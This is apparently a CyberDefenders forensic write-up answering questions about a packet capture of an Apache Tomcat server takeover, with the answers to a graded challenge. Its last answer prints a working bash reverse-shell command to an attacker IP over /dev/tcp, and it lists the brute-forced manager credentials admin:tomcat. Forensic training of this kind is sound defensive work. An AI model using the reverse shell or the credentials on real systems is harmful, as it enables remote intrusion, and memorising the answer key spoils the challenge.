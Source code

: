 ```yaml
---
title: "[CD] Tomcat Takeover"
date: 2024-08-06
categories: [Writeups, CyberDefenders]
tags: [CyberDefenders, Writeup, Wireshark, PCAP]
---
```


# Scenario

Our SOC team has detected suspicious activity on one of the web servers within the company's intranet. In order to gain a deeper understanding of the situation, the team has captured network traffic for analysis. This pcap file potentially contains a series of malicious activities that have resulted in the compromise of the Apache Tomcat web server. We need to investigate this incident further.

***

# Questions

**Q:** Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server? <br />
**A:** 14.0.0.120 <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q1-1.png" alt="Tomcat Takeover">

***

**Q:** Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated? <br />
**A:** Guangzhou <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q2-1.png" alt="Tomcat Takeover">

***

**Q:** From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel? <br />
**A:** 8080 <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q3-1.png" alt="Tomcat Takeover">

***

**Q:** Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process? <br />
**A:** gobuster <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q4-1.png" alt="Tomcat Takeover">

***

**Q:** Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover? <br />
**A:** /manager <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q5-1.png" alt="Tomcat Takeover">

***

**Q:** Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization? <br />
**A:** admin:tomcat <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q6-1.png" alt="Tomcat Takeover">

***

**Q:** Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data? <br />
**A:** JXQOZY.war <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q7-1.png" alt="Tomcat Takeover">

***

**Q:** Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence? <br />
**A:** /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1' <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q8-1.png" alt="Tomcat Takeover">
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q8-2.png" alt="Tomcat Takeover">
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q8-3.png" alt="Tomcat Takeover">

***